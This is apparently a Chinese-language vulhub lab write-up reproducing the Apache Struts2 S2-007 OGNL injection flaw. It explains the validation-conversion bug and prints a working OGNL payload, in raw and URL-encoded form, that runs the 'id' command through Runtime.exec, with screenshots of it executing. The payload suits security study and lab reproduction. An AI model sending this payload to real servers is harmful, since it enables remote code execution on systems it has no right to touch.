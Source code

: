# Struts2_007_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			当`<ActionName> -validation.xml`配置的验证规则。如果类型验证转换失败，则服务器将拼接用户提交的表单值字符串，然后执行OGNL表达式解析并返回，造成OGNL表达式注入。从而可能造成远程执行代码。

​			当用户`age`以`str`而不是的形式提交时`int`，服务器将拼接`"'" + value + "'"`代码，然后使用OGNL表达式对其进行解析。为了成功完成任务，我们需要找到一个配置有相似验证规则的表单字段，以产生转换错误。然后，您可以通过注入SQL单引号的方式注入任何OGNL表达式代码

​			影响版本

  		2.0.0 - 2.2.3

### 0x02漏洞复现

#### payload：

' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '

url编码：

%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29+%2B+%27

​			登录界面

![S2_007_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_007_rce_1.jpg)

​			Burpsuite抓包，发送第一个payload

![S2_007_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_007_rce_2.jpg)

​			有回显，id被执行。

![S2_007_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_007_rce_3.jpg)



### 0x03参考资料

https://xz.aliyun.com/t/2684

https://blog.csdn.net/qq_45625605/article/details/103085867